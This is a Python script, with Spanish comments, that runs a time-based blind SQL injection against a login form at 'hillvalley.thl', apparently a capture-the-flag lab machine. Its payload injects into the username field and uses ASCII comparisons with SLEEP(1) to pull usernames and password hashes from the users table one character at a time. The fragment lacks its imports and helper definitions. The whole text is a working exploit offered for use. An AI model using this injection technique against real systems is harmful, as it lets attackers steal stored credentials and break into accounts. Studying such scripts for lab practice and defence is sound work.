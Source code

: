 ```python

signal.signal(signal.SIGINT, ctrl_c)

# Variables globales
main_url = "http://hillvalley.thl/index.php" # Target

def makeSQL():
    print(c("\n[*] Iniciando Ataque con comparación ASCII...\n", "green"))
    data = "" # Aqui se almacena la data.

    for position in range(1, 150):  # Rango para el hash completo
        found = False
        # Probamos todos los valores ASCII imprimibles (32-126)
        for ascii_value in range(32, 127):
            
            time_start = time.time()
            # Convertir valor ASCII a carácter para la payload
            character = chr(ascii_value)
            # Payload que compara el código ASCII directamente
            sql_payload = f"admin' or if(ASCII(SUBSTRING((SELECT GROUP_CONCAT(username, ':', password) FROM hillvalley.users),{position},1))={ascii_value}, SLEEP(1), 0)-- -"
            
            try:
                r = requests.post(main_url, data={"username": sql_payload, "password": "admin"}, timeout=2)
            except requests.exceptions.Timeout:
                # Timeout significa que SLEEP(1) se ejecutó → valor ASCII correcto
                char_found = chr(ascii_value)
                data += char_found
                print(c(f"[+] Posición {position}: ASCII {ascii_value} = '{char_found}'", "yellow"))
                found = True
                break
            except Exception as e:
                continue
                
            time_end = time.time()
            elapsed_time = time_end - time_start

            if elapsed_time > 1:
                char_found = chr(ascii_value)
                data += char_found
                print(c(f"[+] Posición {position}: ASCII {ascii_value} = '{char_found}'", "yellow"))
                found = True
                break
        
        if not found:
            print(c(f"[!] No se encontró carácter en posición {position}", "red"))
            break

    print(c(f"\n[+] Datos extraídos: {data}", "green"))
    print(c(f"[+] Longitud: {len(data)} caracteres", "blue"))

def main():
    makeSQL()

if __name__ == '__main__':
    main()
```
